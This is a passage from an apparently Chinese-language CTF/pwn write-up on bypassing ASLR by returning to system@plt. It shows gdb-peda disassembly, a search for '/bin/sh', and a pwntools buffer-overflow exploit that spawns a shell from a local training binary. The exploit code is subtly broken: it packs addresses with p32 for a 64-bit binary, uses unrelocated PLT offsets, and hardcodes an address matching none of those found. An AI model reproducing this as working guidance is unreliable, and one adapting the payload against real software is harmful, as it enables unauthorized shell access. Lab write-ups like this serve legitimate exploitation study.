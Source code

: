 
查看shell函数的汇编

```shell
gdb-peda$ disassemble shell
Dump of assembler code for function shell:
   0x0000000000001169 <+0>:     push   rbp
   0x000000000000116a <+1>:     mov    rbp,rsp
   0x000000000000116d <+4>:     lea    rax,[rip+0xe90]        # 0x2004
   0x0000000000001174 <+11>:    mov    rdi,rax
   0x0000000000001177 <+14>:    mov    eax,0x0
   0x000000000000117c <+19>:    call   0x1050 <system@plt>
   0x0000000000001181 <+24>:    mov    edi,0x0
   0x0000000000001186 <+29>:    call   0x1060 <exit@plt>
End of assembler dump.
```

找到'/bin/sh'的地址

```shell
gdb-peda$ find '/bin/sh'
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
     vuln : 0x564f073e3004 --> 0x68732f6e69622f ('/bin/sh')
     vuln : 0x564f073e4004 --> 0x68732f6e69622f ('/bin/sh')
libc.so.6 : 0x7fe9a4c99117 --> 0x68732f6e69622f ('/bin/sh')
```



### 4. EXP

exp的构造，首先向缓冲区中填充256个字节的‘A’+向对齐空间中填充16字节的‘A’+ system@PLT的地址+exit@PLT的地址+system_arg的地址。

```python
from pwn import *
system = 0x1050
exit = 0x1060
system_arg = 0x559e0dd67004
payload="A" * 272+p32(system)+p32(exit)+p32(system_arg)
print payload
io= process(argv=['./vuln', payload])
io.interactive()
```



## 参考

[1] [绕过ASLR-一](https://gxkyrftx.github.io/2019/03/02/%E7%BB%95%E8%BF%87ASLR-%E4%B8%80/)

[2] [Linux常用保护机制](https://lantern.cool/note-pwn-linux-protect/index.html)

[3] [Pwn学习笔记2-内存布局](https://darkwing.moe/2019/02/21/Pwn%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B02-%E5%86%85%E5%AD%98%E5%B8%83%E5%B1%80/)

[4] [bypassaslr-returntoplt](https://diting0x.github.io/20170101/bypassaslr-returntoplt/)

